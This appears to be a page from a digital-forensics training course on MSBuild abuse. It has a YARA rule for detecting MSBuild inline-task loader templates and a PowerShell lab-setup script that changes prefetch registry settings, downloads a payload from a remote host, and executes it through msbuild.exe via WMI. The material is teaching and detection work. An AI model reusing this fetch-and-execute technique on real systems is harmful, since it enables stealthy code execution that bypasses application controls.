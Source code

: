 
## MSBuild: Exercise description

<div class="over-height">

```yara

rule MSBuild_template {
   meta:
      description = "MSBuild template. Detects MSBuild variable setup and generic template strings."
   strings:
      // Target variables in template
      $s1  = "byte[] key_code = new byte[" ascii
      $s2  = "byte[] buff = new byte[" ascii

      // Target Other strings
      $s8  = "<Code Type=\"Class\" Language=\"cs\">" ascii
      $s9  = "<![CDATA[" ascii
      $s10 = "[DllImport(" ascii

   condition:
      // Target headers
      ( uint16(0) == 0x3c0a or uint8(0) == 0x3c ) // \n< or < at 0
      and any of ($s*)
}
```

</div>

---



## MSBuild exercise

A script to prepare exercise data is available here: [msbuild.ps1](/resources/msbuild.ps1)

```powershell
## MSBuild setup

# 0. If server disable prefetch so we generate prefetch artifacts
 if ( $(Get-CimInstance -Class CIM_OperatingSystem).Caption -like "*Server*" ) {
 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v EnablePrefetcher /t REG_DWORD /d 3 /f
 reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Prefetcher" /v MaxPrefetchFiles /t REG_DWORD /d 8192 /f
 Enable-MMAgent –OperationAPI -ErrorAction SilentlyContinue
 Start-Service Sysmain -ErrorAction SilentlyContinue
}

# 1. Download payload
$Url = "https://present.velocidex.com/resources/kUgJI.TMP"
$dest = "\\127.0.0.1\C$\Windows\Temp\kUgJI.TMP"

Remove-Item -Path $dest -force -ErrorAction SilentlyContinue
Invoke-WebRequest -Uri $Url -OutFile $dest -UseBasicParsing

# 2. Execute payload
Invoke-WmiMethod -ComputerName 127.0.0.1 -Name Create -Class Win32_PROCESS "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe C:\Windows\Temp\kUgJI.TMP /noconsolelogger"
```

---